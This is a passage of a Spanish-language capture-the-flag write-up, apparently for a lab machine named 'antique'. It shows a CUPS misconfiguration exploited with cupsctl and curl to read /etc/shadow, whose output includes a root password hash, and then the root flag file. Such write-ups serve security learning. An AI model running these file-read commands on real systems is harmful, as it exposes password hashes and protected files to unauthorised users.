 ```bash
cupsctl ErrorLog=/etc/shadow WebInterface=Yes && curl 'http://localhost:631/admin/log/error_log'

root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
sync:*:18375:0:99999:7:::
games:*:18375:0:99999:7:::
man:*:18375:0:99999:7:::
lp:*:18375:0:99999:7:::
mail:*:18375:0:99999:7:::
news:*:18375:0:99999:7:::
uucp:*:18375:0:99999:7:::
proxy:*:18375:0:99999:7:::
www-data:*:18375:0:99999:7:::
backup:*:18375:0:99999:7:::
list:*:18375:0:99999:7:::
irc:*:18375:0:99999:7:::
gnats:*:18375:0:99999:7:::
nobody:*:18375:0:99999:7:::
systemd-network:*:18375:0:99999:7:::
systemd-resolve:*:18375:0:99999:7:::
systemd-timesync:*:18375:0:99999:7:::
messagebus:*:18375:0:99999:7:::
syslog:*:18375:0:99999:7:::
_apt:*:18375:0:99999:7:::
tss:*:18375:0:99999:7:::
uuidd:*:18375:0:99999:7:::
tcpdump:*:18375:0:99999:7:::
landscape:*:18375:0:99999:7:::
pollinate:*:18375:0:99999:7:::
systemd-coredump:!!:18389::::::
lxd:!:18389::::::
usbmux:*:18891:0:99999:7:::
```
{: .nolineno}

Por lo que se puede revisar la flag de usuario administrador

```bash
lp@antique:/tmp$ cupsctl ErrorLog=/root/root.txt WebInterface=Yes && curl 'http://localhost:631/admin/log/error_log'
6f8eae989c34f0e1613427802d4bd087
lp@antique:/tmp$ 
```
{: .nolineno}
